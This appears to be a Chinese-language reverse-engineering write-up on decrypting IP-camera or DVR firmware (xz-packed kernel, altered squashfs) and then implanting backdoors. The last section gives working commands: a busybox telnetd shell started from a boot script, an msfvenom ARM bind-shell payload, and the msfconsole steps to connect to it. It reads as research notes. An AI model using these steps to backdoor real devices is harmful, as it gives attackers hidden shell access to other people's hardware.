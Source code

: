 ## 得到文件系统

有理由猜测文件系统和内核使用同样的加密方式，

## 总结

XZ为流式解压，流的含义为分成块，每处理一块之后赋予下一种状态并处理下一个块，每个块有类似的处理逻辑。

xz在实现时由于类似的处理逻辑较多，经过编译器优化后，ida看到很多goto语句这会增加逆向难度。花时间熟悉xz源码有非常有助于分析。

从uImage的xz压缩包中解压出来的vmlinux文件结构并非elf文件格式，需要进行一些处理。

## 现有解压方案

这个项目描述了一下解密的方式，实现了一个unsquashfs的补丁，可以解密被tvt头修改过的squashfs文件系统

[https://github.com/zb3/tvt-firmware-decryptor/tree/master](https://github.com/zb3/tvt-firmware-decryptor/tree/master "https://github.com/zb3/tvt-firmware-decryptor/tree/master")

## 植入后门

植入后门的方案有四种

-   1、编译后门文件，编译libuClic版本的文件需要使用buildroot，细节可以参考失败案例
-   2、用msf生成后门文件，替换掉内部的一些二进制文件，通过web访问执行该文件即可得到shell。由于固件没有telnet等命令，这种方法只需要执行一个小文件，对固件加载影响较小。
-   3、用msf生成一段后门shellcode，然后用idapython修改二进制文件的一段代码，这种方法失败的可能较大，但是不影响固件的大小。
-   放进去一个busybox，然后在启动脚本里放入启动telnetd的命令
    ```bash
    /me/busybox.armel telnetd -l  /bin/sh -p 89 &
    ```

### 生成后门

使用msfvenom生成后门程序方法如下

```bash
msfvenom -p linux/armle/shell_bind_tcp -f elf -o aa
```

测试payload，一端启动后门程序

```bash
chmod 777 ./aa
qemu-arm ./aa
```

一段启动msf连接程序

```bash
msfconsole
use linux/armle/shell_bind_tcp
set RHOST 127.0.0.1
exploit
 session -l  查看连接
 sessions -i 1 进入连接

```
